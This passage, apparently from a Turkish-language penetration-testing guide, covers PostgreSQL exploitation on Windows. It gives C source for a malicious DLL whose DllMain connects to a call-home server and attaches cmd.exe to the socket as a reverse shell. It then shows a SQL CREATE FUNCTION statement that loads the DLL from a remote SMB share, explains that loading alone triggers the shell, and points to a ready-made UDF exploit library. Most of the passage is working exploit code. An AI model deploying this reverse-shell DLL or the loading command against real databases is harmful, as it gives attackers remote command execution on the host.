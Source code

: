 ```c
SOCKET wsock;
struct sockaddr_in server;
char ip_addr[16];
STARTUPINFOA startupinfo;
PROCESS_INFORMATION processinfo;

char *program = "cmd.exe";
const char *ip = PG_REVSHELL_CALLHOME_SERVER;
u_short port = atoi(PG_REVSHELL_CALLHOME_PORT);

WSAStartup(MAKEWORD(2, 2), &wsaData);
wsock = WSASocket(AF_INET, SOCK_STREAM,
IPPROTO_TCP, NULL, 0, 0);

struct hostent *host;
host = gethostbyname(ip);
strcpy_s(ip_addr, sizeof(ip_addr),
inet_ntoa(*((struct in_addr *)host->h_addr)));

server.sin_family = AF_INET;
server.sin_port = htons(port);
server.sin_addr.s_addr = inet_addr(ip_addr);

WSAConnect(wsock, (SOCKADDR*)&server, sizeof(server),
NULL, NULL, NULL, NULL);

memset(&startupinfo, 0, sizeof(startupinfo));
startupinfo.cb = sizeof(startupinfo);
startupinfo.dwFlags = STARTF_USESTDHANDLES;
startupinfo.hStdInput = startupinfo.hStdOutput =
startupinfo.hStdError = (HANDLE)wsock;

CreateProcessA(NULL, program, NULL, NULL, TRUE, 0,
NULL, NULL, &startupinfo, &processinfo);

return TRUE;
}

#pragma warning(pop) /* re-enable 4996 */

/* Add a prototype marked PGDLLEXPORT */
PGDLLEXPORT Datum dummy_function(PG_FUNCTION_ARGS);

PG_FUNCTION_INFO_V1(add_one);

Datum dummy_function(PG_FUNCTION_ARGS)
{
int32 arg = PG_GETARG_INT32(0);

PG_RETURN_INT32(arg + 1);
}
```
Bu durumda **kötü niyetli kodun DllMain fonksiyonu içinde olduğunu** unutmayın. Bu, bu durumda postgresql'de yüklenen fonksiyonu çalıştırmanın gerekli olmadığı anlamına gelir, sadece **DLL'yi yüklemek** **ters shell'i çalıştıracaktır:**
```c
CREATE OR REPLACE FUNCTION dummy_function(int) RETURNS int AS '\\10.10.10.10\shared\dummy_function.dll', 'dummy_function' LANGUAGE C STRICT;
```
[PolyUDF projesi](https://github.com/rop-la/PolyUDF), tam MS Visual Studio projesi ve çoklu versiyon desteği olan kullanıma hazır bir kütüphane (şunları içerir: _command eval_, _exec_ ve _cleanup_) ile iyi bir başlangıç noktasıdır.
